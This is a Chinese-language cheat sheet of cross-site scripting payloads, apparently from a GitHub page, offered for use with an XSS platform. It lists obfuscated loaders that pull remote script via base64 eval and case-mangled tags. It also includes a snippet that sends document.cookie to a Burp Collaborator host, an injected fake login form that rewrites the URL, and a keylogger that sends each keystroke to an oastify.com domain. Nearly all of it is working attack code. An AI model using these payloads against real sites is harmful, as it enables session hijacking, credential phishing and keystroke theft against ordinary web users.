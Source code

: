 ### 经典POC，推荐搭配XSS平台使用

```html
<script src=http://url/x.js></script>

</tExtArEa>'"><sCRiPt sRC=http://xss.url/x.js></sCrIpT>

'"><input onfocus=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veHNzLnhzcyI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs= autofocus>

<img src=x onerror=s=createElement('script');body.appendChild(s);s.src='http://xss.url/x.js';>

</tEXtArEa>'"><img src=# id=xssyou style=display:none onerror=eval(unescape(/var%20b%3Ddocument.createElement%28%22script%22%29%3Bb.src%3D%22https%3A%2F%2Fxss.url%2Fx.js%22%2BMath.random%28%29%3B%28document.getElementsByTagName%28%22HEAD%22%29%5B0%5D%7C%7Cdocument.body%29.appendChild%28b%29%3B/.source));//>

'"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veHNzLnhzcyI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs= onerror=eval(atob(this.id))>
```


### 利用Burp自带DNSLOG平台以CORS的方式打cookie

```html
<script>
  fetch('https://<SESSION>.burpcollaborator.net', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
  });
</script>
```

### 表单钓鱼

利用 XSS 修改页面的 HTML 内容，显示钓鱼表单，以下为示例代码：

```html
<script>
history.replaceState(null, null, '../../../login');//这段代码会将当前浏览器显示的URL会跳转到/login，达到迷惑效果。
document.write("</br></br></br></br></br><h1>Please login to continue</h1><form>Username: <input type='text'>Password: <input type='password'></form><input value='submit' type='submit'>")
</script>
```

### JS键盘记录器

另一种收集敏感数据的方法是设置一个JS键盘记录器。
注：yuw08jzgc8gzb04m6xr7kq29u00qof.oastify.com这个域名是Burp自带的DNSLOG平台，可以用来接收数据。

```javascript
<img src=x onerror='document.onkeypress=function(e){fetch("https://yuw08jzgc8gzb04m6xr7kq29u00qof.oastify.com/?"+String.fromCharCode(e.which))},this.remove();'>
```
